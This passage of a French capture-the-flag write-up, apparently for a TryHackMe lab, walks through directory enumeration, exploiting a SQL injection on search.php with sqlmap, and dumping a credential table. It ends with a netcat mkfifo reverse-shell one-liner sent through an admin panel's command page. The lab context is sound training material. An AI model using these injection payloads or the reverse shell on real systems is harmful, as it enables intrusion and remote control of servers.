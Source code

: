 ```
/server-status        (Status: 403) [Size: 287]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
## Dirsearch
Je n'ai rien trouver de bien foufou avec Gobuster, mais j'ai trouver avec Dirsearch !
```
[09:32:39] Starting:                                                                                                                                                                   
[09:33:29] 200 -    2KB - /assets/                                          
[09:33:29] 301 -  333B  - /assets  ->  http://store.cybercrafted.thm/assets/
[09:34:43] 200 -  838B  - /search.php                                       
                                                                             
Task Completed
```
# SQLi !
On va jouer un peu avec SQLmap ici.
On va récupèrer la requête avec Burp Suite et lancer sqlmap
```
sqlmap -r req.txt
```
Il trouve bien une injection SQL :
```
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 8937 FROM (SELECT(SLEEP(5)))nsuO) AND 'Jxkt'='Jxkt&submit=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,CONCAT(0x71787a6b71,0x42614b77684c51694857556153465a54556c6b666155707a5a486b49764a73664964725a5578447a,0x716b786b71),NULL-- -&submit=
```
Dans la database **webapp** on retrouve le flag et l'user :
```
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 88bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX1 | xXUltimateCreeperXx |
| 4  | THM{bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX8}    | web_flag            |
+----+------------------------------------------+---------------------+
```
Le mot de passe est en SHA1.

```
xXUltimateCreeperXx
dXXXXXXXXXXXXXXX9
```
# Admin panel & RCE!
Nous avons désormais l'accès a l'admin panel. Celui-ci propose une page qui execute des commandes sur le serveur.
En injectant le payload suivant :
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.59.209 1234 >/tmp/f
```
On récupère un revshell.
